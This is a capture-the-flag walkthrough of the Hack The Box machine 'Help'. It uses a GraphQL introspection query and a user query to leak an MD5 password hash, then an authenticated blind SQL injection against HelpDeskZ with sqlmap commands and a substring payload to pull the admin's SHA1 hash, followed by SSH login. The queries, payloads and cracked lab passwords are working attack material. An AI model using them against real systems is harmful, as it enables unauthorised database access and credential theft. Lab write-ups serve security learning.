 # Help - Second way

There is another way of doing the box. If we check our Nmap scan again we see that there is Node.js on port 3000:

```markdown
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking Node.js Express framework (Port 3000)

If we browse to the web page on port 300 we get a Node.js API with one message saying:
> message: "Hi Shiv, To get access please find the credentials with given query"

This is a hint to look out for **GraphQL** on the server and we find the path **/graphql** on the page that says:
> GET query missing.

If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
10.10.10.121:3000/graphql?query= {__schema%20{%0atypes%20{%0aname%0akind%0adescription%0afields%20{%0aname%0a}%0a}%0a}%0a}

URL-decoded:
{__schema {
  types {
    name
    kind
    description
    fields {
      name
      }
    }
  }
}
```

We see there is a _User Object_ with two values _username and password_:

![Interesting user objects](https://kyuu-ji.github.io/htb-write-up/help/help_user-objects.png)

So we can query for those values:
If we research a bit about the GraphQL package and how to exploit it we wil find different sources. One query I found is one that eventually gives us useful information:
```markdown
{ user {
  username, password
  }
}

URL-encoded:
10.10.10.121:3000/graphql?query={+user+{+username,+password+}+}
```

This gives us the values for username and password:
```json
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```

This hash is 32 characters long, so it is probably MD5 and we find it on hashes.org:
> godhelpmeplz

These are credentials for the **ServiceDeskZ** portal that is running on port 80.

## Checking HTTP (Port 80)

There are two vulnerabilites that both work for the version lower than 1.0.2 and we know that the version is exactly that.
- HelpDeskZ 1.0.2 - Arbitrary File Upload
- HelpDeskZ < 1.0.2 - (Authenticated) SQL Injection / Unauthorized File Download

This time we will use the **Authenticated SQL Injection** because we are authorized with the credentials we found on Node.js.

### SQL Injection exploit

Before we can use this exploit we need to create a ticket with an attachment:

![Creating ticket](https://kyuu-ji.github.io/htb-write-up/help/help_create-ticket.png)

Sending the location of the attachment to Burpsuite:
```markdown
GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 HTTP/1.1
Host: 10.10.10.121
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Cookie: lang=english; PHPSESSID=lq1cfc4t3upb5p4pqcpmftcnb1; usrhash=0Nwx5jIdx%2BP2QcbUIv9qck4Tk2feEu8Z0J7rPe0d70BtNMpqfrbvecJupGimitjg3JjP1UzkqYH6QdYSl1tVZNcjd4B7yFeh6KDrQQ%2FiYFsjV6wVnLIF%2FaNh6SC24eT5OqECJlQEv7G47Kd65yVLoZ06smnKha9AGF4yL2Ylo%2BF17KMZ44LDq7MJ4o4ZDbx1GAgeVnXUZaVQLevzMj3ugw%3D%3D
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
```

We will save this request to a file so we can send it to **SQLMap**:
```markdown
sqlmap -r help.req --batch
```

Then we dump the contents of the database:
```markdown
sqlmap -r help.req --dump
```

Here we will find the table named **staff** that is important.

We will write a Python script to automate the process of this SQL Injection, that can found in this folder named **help-sqli.py**.
```markdown
/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=1&param[]=7 and substr((select password from staff limit 0,1),0,1) = 'a'
```

Running that script will iterate through every character of the hash of the password of the Administrator. If you let run SQLMap long enough this hash will be found, too.
> d318f44739dced66793b1a603028133a76ae680e

This hash is 40 characters long and thus probably SHA1. On hashes.org we find this hash and the password is:
> Welcome1

Starting a SSH session with the user _help_ and this password works and we have a shell:
```markdown
ssh help@10.10.10.121
```
